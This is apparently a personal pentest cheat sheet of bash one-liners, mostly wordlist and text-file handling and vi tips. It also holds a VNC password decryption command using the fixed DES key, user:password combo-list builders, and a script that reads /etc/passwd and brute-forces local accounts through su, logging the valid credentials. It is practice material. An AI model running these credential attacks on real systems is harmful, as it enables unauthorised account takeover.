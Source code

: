## Bash One-Liners

Smile.

#### Take the second field out output

```bash
cat file.txt | awk '{print $2}'
```

#### Tee output to file and stout

```bash
enum4linux | tee file.txt
```

#### Decrypt VNC Password

```bash
echo -n 6bcf2a4b6e5aca0f | xxd -r -p | openssl enc -des-cbc --nopad --nosalt -K e84ad660c4721ae0 -iv 0000000000000000 -d | hexdump -Cv
```

#### Find largest files on fs

```bash
sudo find / -type f -exec du -h {} + | sort -rh | head -n 20
```

#### Find largest directories on your fs, not including root dirs and their child

```bash
sudo du -ah / | grep -vE '^(/[^/]+/[^/]+)$' | sort -rh | head -n 20
```

#### Grep

Recursively Grep for word, case insensitive, show 3 lines before and after match

```bash
grep -ri "word" location -A3 -B3
```

Print only the matched pattern.

```bash
grep -o "35.237.4.214" log.txt
```

Show lines that don't have words.

```bash
cat file.txt | grep -v "word1\|word2\|word3"
```

Find filename, case insensitive, with size.

```bash
ll $(find /opt/SecLists) | grep -i "wordpress"
```

Keeps lines that have a capital letter, a special character, and a number.

```bash
cat input.txt | grep -P '[A-Z]' | grep -P '[^a-zA-Z0-9]' | grep -P '[0-9]'
```

Look at all of the directories:

```bash
ls -alR | grep ^d
```

#### Manipulating Txt Files

Remove duplicate lines.

```bash
awk '!seen[$0]++' users.txt
```

Print without newline, replace with comma.

```bash
cat us.txt|awk -F'\n' '{printf "%s,",$1}'
```

Capitalize the first letter of every word.

```bash
awk '{ for(i=1; i<=NF; i++) $i = toupper(substr($i,1,1)) substr($i,2) } 1' users.txt
```

Make txt file of words lowercase and remove duplicates without ordering the words.

```bash
awk '!a[tolower($0)]++ {print tolower($0)}' input.txt > output.txt
awk '!a[toupper($0)]++ {print toupper($0)}' users.txt
```

Remove any words from txt file that are less than 6 chars.

```bash
awk 'length($0) >= 6' passwords.txt > temp.txt && mv temp.txt passwords.txt
```

Prepend the special chars '^$' at the beginning of each word in a text file from lines 106 to 122.

```bash
sed -i '89,105s|^|^$|' bdg.rule
```

Every combination of words from file1 and file2, separated by a colon, with outer loop being users, then removing any words in file2 that aren't 7 letters and have a capital letter and a special char, without ordering.

```bash
awk 'length($0) >= 7' passwords.txt > tmp_passwords.txt && awk 'NR==FNR {a[$1]; next} {for (i in a) print $1 ":" i}' tmp_passwords.txt users.txt | grep -P '[A-Z]' | grep -P '[^a-zA-Z0-9]' > combined.txt && rm tmp_passwords.txt
```

Combining two files' lines with a ':'.

```bash
awk 'NR==FNR {a[$1]; next} {for (i in a) print i ":" i}' users.txt users.txt > combo.txt    
```

Make a txt file of all port numbers.

```bash
seq 1 65535 > ports.txt
```

Combine all files named passwords.txt.

```bash
find /home/kali/practice -name "passwords.txt" -exec cat {} \; > megapasswords.txt
```

Prepends file1 to the beginning of file2.

```bash
cat file1 file2 > file3
```

Remove words from text file that start with '$2a'.

```bash
sed -i '/^\$2a/d' filename.txt
```

Print lines 90-870.

```bash
sed -n '90,870p' filename.txt
awk 'NR >= 90 && NR <= 870' filename.txt > output.txt
```

Remove all words that start with $ and are longer than 25 chars.

```bash
awk '{ for (i = 1; i <= NF; i++) if (!($i ~ /^\$.{25,}/)) printf "%s ", $i; printf "\n"}' filename.txt > output.txt
```

Clean all the weird files in linux lfi txt file list to the interesting files:

```bash
cat files.txt |grep -i 'etc\|conf\|ini\|cnf\|var' |grep -v '\\\|\%\|//\|\.\.\|\?\|x'> /home/kali/repos/offsec/lists/lfi-condensed-tmp.txt && awk '!seen[$0]++' /home/kali/repos/offsec/lists/lfi-condensed-tmp.txt > /home/kali/repos/offsec/lists/lfi-condensed.txt && rm /home/kali/repos/offsec/lists/lfi-condensed-tmp.txt
```

Delete the last line in a file, or particular ones.

```bash
sed '$d' log.txt # -i would delete the line of the file in-place
sed '5,7d' log.txt
```

Print specific lines.

```bash
sed -n '2,15 p' log.txt
```

#### Vi Magic

Replace strings.

```bash
:%s/^t/,/g # Replace tabs with commas globally
```

Delete lines that match (or don't match) pattern.
```bash
:g/<pattern>/d
:g!/<pattern>/d
```

Commenting out blocks of code.

```bash
# Enter ma at the start location, go to end of block and enter mb
:'a,.s/^/#
```

Copy block of code, move block of code.

```bash
:'a,'bco . || :'a,'bmo .
```

Yanking to a buffer 'a', or append to buffer 'a'.

```bash
:'a,.ya a || :'a,.ya A
```

Substituting in a block of text.

```bash
:'a,.s/search_string/replace_string/[gc] # g is global and c is confirm functionality
```

Recursively replace pattern/string with another within current directory.

```bash
for fyl in $(find . \( -type d -iregex "^\.git.*\|.*results.*\|.*ResetPassword.*" -prune \) -o -type f); do sed -i 's/192\.168\.172\.21/192\.168\.178\.21/g' $fyl; wait; done
```

I use them all the time for:
    copying and moving blocks of code,
    yanking and deleting blocks of code into named buffers, and
    Edit: substituting in a block of test.


#### Test out su

```bash
users=$(cat /etc/passwd 2>/dev/null | grep -i "sh$" | cut -d ":" -f 1); sucheck(){ sucheck=$(echo "$2" | timeout 1 su $user -c whoami 2>/dev/null); if [ "$sucheck" ]; then echo "  You can login as $user using password: $2" && echo "$1:$2" >> /dev/shm/valid.txt; fi }; printf "%s\n" "$users" | while read user; do sucheck "$user" ""; sucheck "$user" "$user"; sucheck "$user" "$hostname"; sucheck "$user" "$(echo $user | rev 2>/dev/null)"; if [ -f "passwords.txt" ]; then while IFS=' ' read -r guess; do sucheck "$user" "$guess"; sleep 0.01; done < "passwords.txt"; fi; if [ -f "$1" ]; then while IFS=' ' read -r guess; do sucheck "$user" "$guess"; sleep 0.01; done < "$1"; fi; done
```

find ../ResetPassword -type f -exec strings {} \; -exec grep -riH password --color  {} \;